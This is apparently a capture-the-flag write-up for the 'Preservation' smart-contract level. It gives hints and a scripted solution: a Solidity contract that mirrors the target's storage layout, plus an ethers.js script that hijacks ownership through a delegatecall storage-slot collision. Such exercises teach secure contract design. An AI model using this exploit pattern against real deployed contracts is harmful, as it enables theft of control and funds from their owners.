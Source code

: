 # 16 - Preservation

### Hints

<details>

<summary>Hint One</summary>

The `Preservation` contract uses `delegatecall` to execute functions on the `LibraryContract`. When the `LibraryContract` executes an expression to update a state variable, on which contract is this state variable updated?

</details>

<details>

<summary>Hint Two</summary>

The `LibraryContract` only contains one state variable, as opposed to the \`Preservation\` contract’s five state variables. What does this mean in terms of which memory slots the `LibraryContract` may update on the calling contract?

</details>

<details>

<summary>Hint Three</summary>

As the `LibraryContract` can only update the first storage slot of `Preservation`, this contract will not grant you sufficient leverage to update the `owner` variable on its own. Right idea, wrong storage slot being updated.

</details>

### Scripted Solution

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

contract PreservationExploit {
    // Lay out storage to match `Preservation` contract
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    /**
     * Converts `time` to address and uses it to set `owner` variable.
     */
    function setTime(uint time) public {
        owner = address(uint160(time));
    }
}
```

```javascript
const fs = require('fs')
const ethers = require('ethers')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const { contract: preservationContract } = await setup('Preservation')

  // Address of `PreservationExploit` contract
  const exploitContractAddress = '0x22f91Fb6b56aB7C5785E939905DAcB3eb8d5C76b'

  // Call `setFirstTime` to set `timeZone1Library` to exploit contract address
  const setExploitContractAddressTx = await preservationContract.setFirstTime(
    exploitContractAddress
  )
  await setExploitContractAddressTx.wait(1)

  // Pad player address with 00 bytes to format as uint256
  const paddedPlayerAddress =
    '0x00000000000000000000000053D43a3eBFC7b610A2Ba87BC783d555D4Cb3B363'

  // Call `setFirstTime` again to set `owner` address via exploit contract
  const setOwnerAddressTx = await preservationContract.setFirstTime(
    paddedPlayerAddress,
    // Send along some extra gas
    {
      gasLimit: 1000000,
      gasPrice: 20000000000
    }
  )
  await setOwnerAddressTx.wait(1)
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })
```
